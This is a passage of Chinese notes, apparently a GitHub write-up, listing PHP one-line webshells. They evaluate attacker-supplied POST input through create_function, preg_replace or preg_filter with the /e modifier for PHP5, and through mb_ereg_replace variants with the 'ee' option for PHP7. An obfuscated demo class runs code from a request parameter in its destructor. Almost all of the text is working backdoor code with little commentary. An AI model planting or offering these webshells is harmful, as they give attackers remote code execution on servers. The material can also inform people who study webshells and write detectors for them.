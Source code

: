 ```php
<?php $st=@create_function('',$_POST['a']);$st();?>
```

`/e`修饰符结合`preg_replace`或`preg_filter`, 仅限`PHP5`:

```php
<?php @preg_replace('/.*/e',$_POST['a'],'');?>

<?php @preg_filter('/.*/e',$_POST['a'],'');?>
```

`PHP7`中利用`/e`修饰符:

```php
<?php @mb_ereg_replace('.*',$_POST['a'],'','ee');?>
<?php @mb_eregi_replace('.*',$_POST['a'],'','ee');?>
<?php @mbereg_replace('.*',$_POST['a'],'','ee');?>
<?php @mberegi_replace('.*',$_POST['a'],'','ee');?>
```

- `Demo`

```php
<?php
	error_reporting(0);
    highlight_file(__FILE__);

    use function \mbereg_replace as h3rmesk1t;
    class bemo {
		public $code;
		function __construct($code='') {
			$this->code = $code;
		}
		function __destruct() {
			$mm = urldecode(str_rot13(trim('   '.$_REQUEST['file_name'].'  ')));
			h3rmesk1t('.*', $mm, '', 'ee');
		}
    }
    $test = new bemo('h3');
    unset($test);
?>
```

<div align=center><img src="./images/6.png"></div>
